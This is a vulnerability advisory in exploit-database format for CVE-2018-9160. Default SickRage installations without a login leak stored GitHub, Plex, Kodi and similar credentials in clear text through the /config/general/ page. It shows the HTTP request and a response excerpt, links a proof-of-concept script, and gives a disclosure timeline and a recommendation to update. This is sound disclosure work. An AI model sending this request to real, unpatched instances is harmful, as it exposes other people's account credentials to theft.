 # Sickrage cleartext github credentials CVE-2018-9160
---------------------------------------------------------------------

1. About

---------------------------------------------------------------------
Exploit Title: SickRage Clear-Text Credentials in HTTP Response
Date: 2018-04-01
Exploit Author: Sven Fassbender
Contact: https://twitter.com/mezdanak
Vendor Homepage: https://sickrage.github.io
Software Link: https://github.com/SickRage/SickRage
Version: < v2018.03.09-1
CVE : CVE-2018-9160
Category: webapps

---------------------------------------------------------------------

2. Background information

---------------------------------------------------------------------
"SickRage is an automatic Video Library Manager for TV Shows.
It watches for new episodes of your favourite shows, and when they are posted it does its magic: 
automatic torrent/nzb searching, downloading, and processing at the qualities you want." --extract from https://sickrage.github.io

---------------------------------------------------------------------

3. Vulnerability description

---------------------------------------------------------------------
SickRage returns clear-text credentials for e.g. GitHub, AniDB, Kodi, Plex etc. in HTTP responses. 
Prerequisite is that the user did not set a username and password for their SickRage installation. (not enforced, default)

HTTP request:
GET /config/general/ HTTP/1.1
Host: 192.168.1.13:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.13:8081/config/backuprestore/
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

	 
HTTP response:
HTTP/1.1 200 OK
Content-Length: 113397
Vary: Accept-Encoding
Server: TornadoServer/4.5.1
Etag: "e5c29fe99abcd01731bec1afec0e618195f1ae37"
Date: Fri, 02 Mar 2018 10:47:51 GMT
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="nl_NL">
    <head>
		[...]
        <input type="text" name="git_username" id="git_username" value="email@example.com" class="form-control input-sm input300" autocapitalize="off" autocomplete="no" />
        [...]
        <input type="password" name="git_password" id="git_password" value="supersecretpassword" class="form-control input-sm input300" autocomplete="no" autocapitalize="off" />
		[...]
        </div>
    </body>
</html>

---------------------------------------------------------------------

4. Proof of Concept

---------------------------------------------------------------------
https://github.com/mechanico/sickrageWTF/blob/master/get_github_creds_sickrage.py

---------------------------------------------------------------------

5. Timeline

---------------------------------------------------------------------
[2018-03-07] Vulnerability discovered
[2018-03-08] Vendor contacted
[2018-03-08] Vendor replied
[2018-03-09] Vulnerability fixed. (https://github.com/SickRage/SickRage/compare/v2018.02.26-2...v2018.03.09-1)

---------------------------------------------------------------------

6. Recommendation

---------------------------------------------------------------------
Update the SickRage installation on v2018.03.09-1 or later. 
Protect the access to the web application with proper user credentials.

---------------------------------------------------------------------
